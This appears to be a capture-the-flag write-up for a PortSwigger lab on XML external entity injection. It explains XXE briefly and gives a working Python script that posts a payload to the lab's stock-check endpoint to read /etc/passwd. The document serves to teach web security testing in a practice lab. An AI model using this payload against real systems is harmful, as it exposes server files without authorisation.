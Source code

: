 # Portswigger CTF - XXE External Entities Injection
## 2023-12-30, Joakim Oscarsson

### Problem description
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response. To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file. 

### What is XXE
XXE stands for XML External Entities. The goals is to inject a custom entity in the DTD (Document Type Definition) to get the
etc/passwd file.

### Working python code
```python
import requests

url = "https://0a240055034bb89f803ba81d008b0068.web-security-academy.net/product/stock"

payload = '''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY msg SYSTEM "file:///etc/passwd" > ]>
<stockCheck><productId>&msg;</productId><storeId>1</storeId></stockCheck>'''

response = requests.post(url, 
    data=payload,
    headers={"Content-Type": "application/xml"},
)

print(response.text)
```
